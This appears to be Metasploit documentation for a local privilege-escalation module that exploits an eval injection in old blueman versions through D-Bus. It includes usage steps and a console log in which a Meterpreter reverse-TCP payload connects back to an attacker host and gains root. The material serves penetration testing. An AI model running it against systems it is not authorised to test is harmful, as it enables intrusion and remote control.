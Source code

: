 ## Description

  This module attempts to gain root privileges by exploiting a Python
  code injection vulnerability in blueman versions prior to 2.0.3.

  The `org.blueman.Mechanism.EnableNetwork` D-Bus interface exposes the
  `set_dhcp_handler` function which uses user input in a call to `eval`,
  without sanitization, resulting in arbitrary code execution as root.

  This module has been tested successfully with blueman version 1.23
  on Debian 8 Jessie (x64).


## Vulnerable Application

  This module has been tested successfully with:

  * blueman version 1.23 on Debian 8 Jessie (x64)

  Old versions of the `blueman` package are available in [Debian snapshots](https://snapshot.debian.org/).

  The following `/etc/apt/sources.list` configuration will allow a vulnerable
  version of the `blueman` package to be installed:
 
  ```
  deb [check-valid-until=no] http://snapshot.debian.org/archive/debian/20140827T042507Z/ jessie main
  deb-src [check-valid-until=no] http://snapshot.debian.org/archive/debian/20140827T042507Z/ jessie main
  ```

  The package can be installed with `apt-get install blueman`


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/blueman_set_dhcp_handler_dbus_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf5 > use exploit/linux/local/blueman_set_dhcp_handler_dbus_priv_esc 
  msf5 exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > set payload linux/x64/meterpreter/reverse_tcpayload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.DKJWL0TG7sm0M5' (249 bytes) ...
  [*] Executing payload...
  [*] Sending stage (861348 bytes) to 172.16.191.156
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.156:58863) at 2018-12-24 02:44:25 -0500
  [+] Deleted /tmp/.DKJWL0TG7sm0M5

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : debian-8-1-x64.local
  OS           : Debian 8.1 (Linux 3.16.0-4-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

